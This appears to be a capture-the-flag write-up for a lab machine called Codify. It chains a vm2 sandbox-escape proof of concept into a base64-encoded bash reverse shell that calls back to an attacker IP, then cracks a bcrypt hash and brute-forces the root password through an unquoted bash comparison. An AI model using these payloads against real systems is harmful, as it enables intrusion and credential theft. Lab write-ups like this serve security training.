








*Nmap scan*:

```shell
$ cat nmap_allports.txt        
# Nmap 7.94SVN scan initiated Wed Jan 31 09:35:21 2024 as: nmap -p- -v -o nmap_allports.txt 10.10.11.239
Nmap scan report for 10.10.11.239
Host is up (0.049s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
```

```shell
$ cat nmap_servicesversions.txt 
# Nmap 7.94SVN scan initiated Wed Jan 31 09:36:14 2024 as: nmap -p22,80,3000, -sC -sV -v -o nmap_servicesversions.txt 10.10.11.239
Nmap scan report for 10.10.11.239
Host is up (0.045s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 31 09:36:28 2024 -- 1 IP address (1 host up) scanned in 13.82 seconds
```

The webapp on port 80 does a redirect to "codify.htb" domain; it is added to the hosts file.


Browsing at the "About" section will acquire more information about the editor for Node.js. It is mentioned that the code editor used is based on the vm2 javascript library.


Googling it turns out that the vm2 library has a known vulnerability that allows sandboxing to be bypassed: CVE-2023-32314.



A POC for vulnerability testing is reported at URL [https://security.snyk.io/vuln/SNYK-JS-VM2-5537100](https://security.snyk.io/vuln/SNYK-JS-VM2-5537100).

```js
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("echo hacked").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked
```

POC was used in the editor offered by the webapp. The string "hacked" is correctly shown.




Goal now is to get a shell.

*reverse shell POC*:

```shell
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzgwIDA+JjE=|base64 -d|bash").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code));
```

```shell
$ ifconfig tun0 | grep inet && rlwrap nc -nvlp 80       
        inet 10.10.14.6  netmask 255.255.254.0  destination 10.10.14.6
        inet6 fe80::dfd1:c7e1:6204:515a  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1004  prefixlen 64  scopeid 0x0<global>
listening on [any] 80 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.239] 34556
bash: cannot set terminal process group (1255): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$ id
id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
```

Correctly obtained a shell with "svc" user. The user flag is not present. The intermediate user of privilege escalation is joshua.

```shell
svc@codify:/var/www/contact$ cat /ecat /etc/passwd | grep -i bash
root:x:0:0:root:/root:/bin/bash
joshua:x:1000:1000:,,,:/home/joshua:/bin/bash
svc:x:1001:1001:,,,:/home/svc:/bin/bash
```

From the enumeration of webapp files, a database is inviduated.

```shell
svc@codify:/var/www$ find .find . -type f | grep -v -e 'node_modules'
./editor/package.json
./editor/templates/editor.html
./editor/templates/index.html
./editor/templates/about.html
./editor/templates/limitations.html
./editor/package-lock.json
./editor/index.js
./html/index.html
./contact/package.json
./contact/templates/ticket.html
./contact/templates/login.html
./contact/templates/tickets.html
./contact/package-lock.json
./contact/tickets.db
./contact/index.js
```

It is a SQLite database. With strings you can see that it contains information about joshua.

```shell
svc@codify:/var/www$ stringstrings ./contact/tickets.db | grep -i joshua
joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
joshua
```

"sqlite3" is used to open the db.

```shell
svc@codify:/var/www$ sqlitesqlite3 ./contact/tickets.db
sqlite3 ./contact/tickets.db
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .databases
main: /var/www/contact/tickets.db r/w
sqlite> .dump
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        username TEXT UNIQUE, 
        password TEXT
    );
INSERT INTO users VALUES(3,'joshua','$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2');
CREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT);
INSERT INTO tickets VALUES(1,'Tom Hanks','Need networking modules','I think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!','open');
INSERT INTO tickets VALUES(2,'Joe Williams','Local setup?','I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.','open');
DELETE FROM sqlite_sequence;
INSERT INTO sqlite_sequence VALUES('users',3);
INSERT INTO sqlite_sequence VALUES('tickets',5);
COMMIT;
```

In the "users" table there is the user "joshua" with his own password hash. It's John The Ripper Time.

```shell
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob1       (?)     
1g 0:00:00:43 DONE (2024-01-31 10:24) 0.02287g/s 31.29p/s 31.29c/s 31.29C/s crazy1..angel123
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Joshua's password is "spongebob1".

```shell
$ ssh joshua@10.10.11.239
[...]
joshua@codify:~$ id
uid=1000(joshua) gid=1000(joshua) groups=1000(joshua)
```

I am IN.

***user.txt***: 479845173ec9fbc3c51e213ba6818621



Immediately "sudo -l".

```shell
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
joshua@codify:~$ ls -l /opt/scripts/mysql-backup.sh
-rwxr-xr-x 1 root root 928 Nov  2 12:26 /opt/scripts/mysql-backup.sh
```

Joshua can run the "/opt/scripts/mysql-backup.sh" script with sudo. No write permission on the script.

```shell
$ cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

There is a vulnerability in the script. Thanks to [https://www.shellcheck.net/](https://www.shellcheck.net/) e [https://kapeli.com/cheat_sheets/Bash_Test_Operators.docset/Contents/Resources/Documents/index](https://kapeli.com/cheat_sheets/Bash_Test_Operators.docset/Contents/Resources/Documents/index). Basically, when there is a string comparison with "`==`" operator, when the variables are not enclosed in double quotes, the matching is not literal, but based on pattern matching.

```
[[ $a == z* ]]   # True if $a starts with an "z" (pattern matching).
[[ $a == "z*" ]] # True if $a is equal to z* (literal matching).

[ $a == z* ]     # File globbing and word splitting take place.
[ "$a" == "z*" ] # True if $a is equal to z* (literal matching).
```

It was possible to create a simple loop with which it is possible to find the first letter for which pattern matching with the root password is verified.

```shell
joshua@codify:/opt/scripts$ for c in {a..z} ; do echo "Trying $c*..." && echo "$c*" |sudo /opt/scripts/mysql-backup.sh | grep confirmed ; done
Trying a*...
Trying b*...
Trying c*...
Trying d*...
Trying e*...
Trying f*...
Trying g*...
Trying h*...
Trying i*...
Trying j*...
Trying k*...
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
Trying l*...
Trying m*...
Trying n*...
Trying o*...
Trying p*...
Trying q*...
Trying r*...
Trying s*...
Trying t*...
Trying u*...
Trying v*...
Trying w*...
Trying x*...
Trying y*...
Trying z*...
```

The first letter of the root password is "k".

```shell
joshua@codify:/opt/scripts$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root: 
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```

It was possible to script the process until the root password was identified.

```shell
joshua@codify:/opt/scripts$ for c in {A..Z} {a..z} {0..9} ; do export CURRENT=kljh12k3jhaskjh12kjh$c && echo "$CURRENT*" |sudo /opt/scripts/mysql-backup.sh| grep confirmed && echo "--------> Found $CURRENT" ; done
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
--------> Found kljh12k3jhaskjh12kjh3
```



Identified the password "kljh12k3jhaskjh12kjh3." You change the user to root.

```shell
joshua@codify:/opt/scripts$ su root
Password: 
root@codify:/opt/scripts# id
uid=0(root) gid=0(root) groups=0(root)
```

Simply root.

***root.txt***: c3c505abd2389221edf2f0e8cda02f58


